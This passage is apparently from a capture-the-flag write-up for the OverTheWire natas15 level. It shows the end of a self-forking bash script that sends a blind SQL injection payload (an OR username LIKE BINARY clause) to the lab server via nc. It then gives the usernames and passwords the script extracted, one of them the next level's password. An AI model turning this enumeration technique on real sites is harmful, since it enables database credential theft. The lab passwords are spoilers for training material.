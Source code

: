```bash
            if [ $(ps -e | grep $(basename "$0") | wc -l ) -lt 20 ]
            then
                "$0" "$USERNAME$CHAR" $(($CONTENT_LENGTH+1)) &
            else
                query_storm "$USERNAME$CHAR" $(($CONTENT_LENGTH+1))
            fi
        fi
    
    done
    
    
    CONTENT="username=a%%22+OR+username+LIKE+BINARY+%%22$USERNAME%%22%%3B%%23%%23"
    if printf "$HEADER$CONTENT" | nc natas15.natas.labs.overthewire.org 80 | grep -q "This user exists."
    then
        echo "--------------> MATCH: $USERNAME"
    fi
    
}

query_storm "$1" "$2"
```



Once called this script will perform a storm of queries, it will print a
message "try: username" for every username it is about to test. Every time it
finds a match it explores it further (e.g. "pet" works ==> "pete" works ==>
"peter").  Every time an username is found it will print out "---------->
MATCH:" followed by the username. So, if we want to see clearly all the
usernames in the database we can just do: `./natas15.sh | grep "MATCH"`, here
is the output:

```text
--------------> MATCH: bob
--------------> MATCH: alice
--------------> MATCH: charlie
--------------> MATCH: natas16
```

Cool, there is a user called "natas16", I bet his password is the password to
enter the next level. We can use the same script to get all the passwords in
the database, we just need to change "username" with "password" in the query,
we could even change the query to find the password just for the user
"natas16".  It takes a little bit more time, but we get our passwords:


```text
--------------> MATCH: HLwuGKts2w
--------------> MATCH: hROtsfM734
--------------> MATCH: 6P151OntQe
--------------> MATCH: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

Now we just need to try them on the next level...and finally one of them works!
